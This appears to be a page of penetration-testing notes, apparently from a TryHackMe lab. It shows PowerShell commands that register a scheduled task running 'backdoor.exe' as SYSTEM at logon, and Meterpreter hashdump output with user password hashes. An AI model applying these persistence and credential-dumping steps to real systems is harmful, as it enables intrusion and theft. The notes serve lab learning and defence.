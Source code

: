 Scheduled tasks are used to schedule the launch of specific programs or scripts at a pre-defined time or when it meets a condition (Ex: a user logs in).

Powershell can be used to create a scheduled task and assure persistence but for that, we'll have to define multiple `cmdlets`. These are:

- `New-ScheduledTaskAction` - Is used to define the action that is going to be made.
- `New-ScheduledTaskTrigger` - Defining the trigger (daily/weekly/monthly, etc). The trigger can be considered a condition that when met the scheduled task will launch the action.
- `New-ScheduledTaskPrincipal` - Is the user that the task will be run as.
- `New-ScheduledTaskSettingsSet` - This will set our above-mentioned settings.
- `Register-ScheduledTask` - Will create the task.

Knowing this let's create the task using Powershell.

````commandline
PS > $A = ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Administrator\Desktop\backdoor.exe"
PS > $B = New-ScheduledTaskTrigger -AtLogOn
PS > $C = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highhest
PS > $D = New-ScheduledTaskSettingsSet
PS > $E = New-ScheduledTask -Action $A -Trigger $B  -Principal $C -Settings $D
PS > Register-ScheduledTask Backdoor -InputObject $E
````

### Reverse Shell

See the dedicated document: [Reverse Shell](reverse-shell)

### Execute a Remote Script

...

## Hash Dumping

There are different techniques to obtain the hashes of the users on a Windows system. 

Note that you need to be system user. This will not work even if you have Administrator rights. So we probably first need to `migrate` the process to `NT AUTHORITY\SYSTEM`.

### Technique 1:

Note that the hash is in column 4.

````commandline
meterpreter > run post/windows/gather/hashdump 

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 31066436b67d1dfb03c9f249b9aed099...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:52745740e9a05e6195731194f03865ea:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
joe:1000:aad3b435b51404eeaad3b435b51404ee:878d8014606cda29677a44efa1353fc7:::
chris:1001:aad3b435b51404eeaad3b435b51404ee:e0b6050c7280bf4a7bee599cf374fd80:::
tryhackme:1002:aad3b435b51404eeaad3b435b51404ee:0c7ba4684821cd349e327896d9db4474:::
````
